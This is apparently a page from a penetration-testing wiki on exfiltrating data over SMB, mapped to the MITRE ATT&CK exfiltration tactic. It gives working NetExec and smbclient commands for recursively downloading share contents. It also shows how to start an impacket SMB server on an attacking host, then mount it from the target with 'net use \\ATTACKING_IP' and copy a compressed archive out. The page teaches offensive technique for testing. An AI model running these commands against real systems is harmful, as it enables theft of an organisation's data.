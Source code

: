 ```yaml
---
description: MITRE ATT&CK™ - Exfiltration - Tactic TA0010
---
```


# Over SMB

## Theory

SMB (Server Message Block) exfiltration refers to the unauthorized extraction or transfer of data from a compromised network or system using SMB protocols. Attackers can leverage SMB to transfer sensitive or valuable information from an organization's network to an external location.

## Practice

### Exfiltrate Share's Content

{% tabs %}
{% tab title="NetExec" %}
Tools like [NetExec](https://github.com/Pennyw0rth/NetExec) can be used to recursively download a SMB share's content.

```bash
netexec smb $IP -u $USERNAME -p $PASSWORD -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=999999
```

The previous command generates a json file with the list of accessible files in shares. We may use jq to parse this json output.

```bash
cat 10.10.10.111.json | jq '. | map_values(keys)'
```


{% endtab %}

{% tab title="smbclient" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *
```
{% endtab %}
{% endtabs %}

### Exfiltrate Data

{% tabs %}
{% tab title="UNIX-like" %}
To exfiltrate the data from the target, we can compress the data and transfer it via an SMB shared folder hosted on our attacking host.

First, start a SMB server on your attacking host using [smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py) from impacket

```bash
smbserver.py -smb2support /local/share/path ShareName -user veresk -password psswd
```

On the target, compress target data

```powershell
Compress-Archive -Path /path/to/compress -DestinationPath exfi.zip
```

From the target, mount the share folder and copy files to it

```powershell
# Mount the smb share
net use Z: \\ATTACKING_IP\ShareName psswd /USER:veresk

# Exfiltrate ZIP file
copy exfi.zip Z:\
```
{% endtab %}
{% endtabs %}
